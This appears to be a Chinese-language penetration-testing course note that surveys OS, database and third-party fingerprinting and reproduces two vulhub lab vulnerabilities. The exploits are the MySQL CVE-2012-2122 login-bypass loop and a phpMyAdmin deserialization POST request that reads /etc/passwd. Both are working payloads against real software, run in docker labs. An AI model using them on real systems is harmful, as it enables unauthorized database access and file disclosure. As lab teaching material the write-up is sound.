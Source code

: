 ## 基础入门-系统及数据库等

```
前言：除去前期讲到过的搭建中间件、网站源码外，容易受到攻击的还有操作系统、数据库、第三方软件平台等，其中此类攻击也能直接影响到WEB或服务器的安全，导致网站或服务器权限的获取
```

![导图](imgs\导图.png)

### 本节内容

- 操作系统层面

  - 识别操作系统常见方法

    ```
    如果对方有网站可以根据网站来识别，如果没网站则通过扫描相关东西来识别
    ```

    - 有网站

      **windows服务器大小写不敏感，Linux服务器大小写敏感**

      ```
      例子：
      访问http://xiaodi8.com/hacK/和
      访问http://xiaodi8.com/hack/的结果相同，
      则说明xiaodi8.com的服务器的操作系统是windows的
      ```

    - 没有网站

      利用nmap来进行扫描

      命令```sudo namp -O 47.75.212.155```

      ![nmap扫描](imgs\nmap扫描.png)

  - 简要了解两者区别及识别意义

    ```
    这两个操作系统在操作、命令、设置、安全方面都有很大的区别，最主要的区别就是网站的路径问题，windows中有c盘d盘f盘等等，在Linux上没有这个东西，Linux和Windows在大小写方面也有不同，有的产品只能在Linux或者只能在Windows上运行……
    
    识别的意义：知道是什么操作系统之后，在后面的测试过程中，要围绕操作系统支持的方面发展
    ```

  - 操作系统层面漏洞类型对应意义

    ```
    有一些漏洞对于我们来讲没有很大的意义，因为这些漏洞只是产生一些危害，而不会造成权限的丢失，例如DDOS攻击，只是影响服务器的服务，而不会造成权限的丢失
    ```

  - 简要操作系统层面漏洞影响范围



- 数据库层面

  - 识别数据库类型的常见方法

    - 小型数据库access
    - 中型数据库mysql
    - 大型数据库sql server

    根据网站的常见搭建组合判断

    ```
    ASP + Access
    php + mysql
    aspx + mssql
    jsp + mssql, oracle
    python + mongodb
    ……
    ```

    通过操作系统判断，access、mssql不支持Linux

    利用端口扫描，端口在扫描的时候会扫描端口的开放情况，数据库在运行的时候会开放一个默认端口

    ```
    mysql:3306
    sqlserver:1433
    oracle:1521
    mongodb:27017
    Redis:6379
    db2:5000
    ```

    ![namp扫描2](imgs\namp扫描2.png)

  - 数据库类型区别及识别意义

    ```
    数据库的不同，它们的安全机制、写法结构也会不同
    不同的数据库的攻击方法、漏洞的影响都会有相应的差异
    ```

  - 数据库常见漏洞类型及攻击方式

  - 简要数据库层面漏洞影响范围

    ```
    数据库是用来存储网站数据的，包括用户数据，
    
    得到对方的数据后能干嘛？得到管理员数据，则可以尝试登录网站后台，得到用户数据，可以尝试登录用户账号，登录之后不仅可以读取，还可以进行修改
    
    通过数据库操作可以进行相关漏洞攻击，有可能获得数据库权限，甚至获得网站权限
    ```



- 第三方层面
  - 如何判断有哪些第三方平台或软件
  - 简要为什么要识别第三方平台或软件
  - 常见第三方平台或软件漏洞类型及攻击
  - 简要第三方平台或软件安全测试的范围



- 补充

  除去常规WEB安全及APP安全测试外，类似服务器单一或复杂的其他服务（邮件、游戏、负载均衡等），也可以作为安全测试目标，此类目标测试原则只是少了WEB应用或其他安全问题。所以需要根据服务器上的服务来选取攻击方式，明确安全测试思路是很重要的！



- 课程安排->漏洞技术->WEB层面，系统层面，第三方等其他



### 本节案例

- 某数据库弱口令及漏洞演示（vulhub/mysql/CVE-2012-2122身份认证绕过漏洞复现）

  - 打开配置好的vulhub靶机，搭建靶场环境

    进入环境目录

    ```
    cd vulhub/mysql/CVE_2012-2112/
    ```

    环境编译

    ```
    sudo docker-compose build 
    ```

    环境搭建

    ```
    sudo docker-compose up -d
    ```
  
  - 漏洞复现

    获取靶机ip地址
  
    ![case1](imgs\case1.png)
  
    打开kail进行验证
  
    使用nmap进行扫描，可以发现服务器上有mysql 5.5.23，说明环境搭建成功。
  
    ![case2](imgs\case2.png)
  
    使用批处理命令远程登录mysql
  
    ```
    for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
    ```
  
    ![case3](imgs\case3.png)
  
    登录成功，漏洞复现完成，删除环境
  
    ```
    sudo docker-compose down -v
    ```
  
- 某第三方应用安全漏洞演示（vulhub/phpmyadmin/WooYun-2016-199433反序列化漏洞复现）

  - 打开配置好的vulhub靶机，搭建靶场环境

    进入环境目录

        cd vulhub/phpmyadmin/WooYun-2016-199433/

     环境编译
    
        sudo docker-compose build 

    

环境搭建
    
        sudo docker-compose up -d

- 漏洞复现
  
    发送如下数据包，即可读取```/etc/passwd```:
  
    ```
    POST /scripts/setup.php HTTP/1.1
    Host: your-ip:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 80
    
    action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
    ```
  
    ![case4](imgs\case4.png)
  
    文件访问成功，漏洞复现完成，删除环境
  
    ```
    sudo docker-compose down -v
    ```



### 总结

我们的攻击是多层面的，哪一个层面有漏洞就可以成为一个攻击方向



补充：

服务器有数据库但nmap扫不到数据库端口的情况

```
服务器上装了防护软件，防止我们探测
对方的服务器放在内网上，只将80端口放到外网映射
```

